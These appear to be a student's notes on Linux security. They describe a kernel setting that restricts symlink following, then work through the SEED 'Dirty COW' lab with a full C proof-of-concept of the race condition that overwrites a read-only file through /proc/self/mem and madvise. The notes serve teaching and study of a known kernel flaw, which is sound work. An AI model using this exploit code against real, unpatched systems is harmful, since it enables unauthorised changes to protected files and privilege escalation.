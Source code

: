 When set to "0", symlink following behavior is unrestricted.

When set to "1" symlinks are permitted to be followed only when outside a sticky world-writable directory, or when the uid of the symlink and follower match, or when the directory owner matches the symlink's owner.

This protection is based on the restrictions in Openwall and grsecurity.

Limitation: If the symlink is just in a directory owned by the symlink's owner, this protection will make no effect.

## 04 Dirty COW Attack Lab

http://www.cis.syr.edu/~wedu/seed/Labs_16.04/Software/Dirty_COW/

We will use Ubuntu 12.04 in this experiment.

### 040 Task 1 Modify a Dummy Read-Only File

```c
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>
void *map;
void *writeThread(void *arg);
void *madviseThread(void *arg);
int main(int argc, char *argv[]){
  pthread_t pth1,pth2;
  struct stat st;
  int file_size;
  // Open the target file in the read-only mode.
  int f=open("/zzz", O_RDONLY);
  // Map the file to COW memory using MAP_PRIVATE.
  fstat(f, &st);
  file_size = st.st_size;
  map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);
  // Find the position of the target area
  char *position = strstr(map, "CANNOT");                        
  // We have to do the attack using two threads.
  pthread_create(&pth1, NULL, madviseThread, (void  *)file_size); 
  pthread_create(&pth2, NULL, writeThread, position);             
  // Wait for the threads to finish.
  pthread_join(pth1, NULL);
  pthread_join(pth2, NULL);
  return 0;
}
void *writeThread(void *arg){
  char *content= "cannot";
  off_t offset = (off_t) arg;
  int f=open("/proc/self/mem", O_RDWR);
  while(1) {
    // Move the file pointer to the corresponding position.
    lseek(f, offset, SEEK_SET);
    // Write to the memory.
    write(f, content, strlen(content));
  }
}
void *madviseThread(void *arg){
  int file_size = (int) arg;
  while(1)
      madvise(map, file_size, MADV_DONTNEED);
}
```
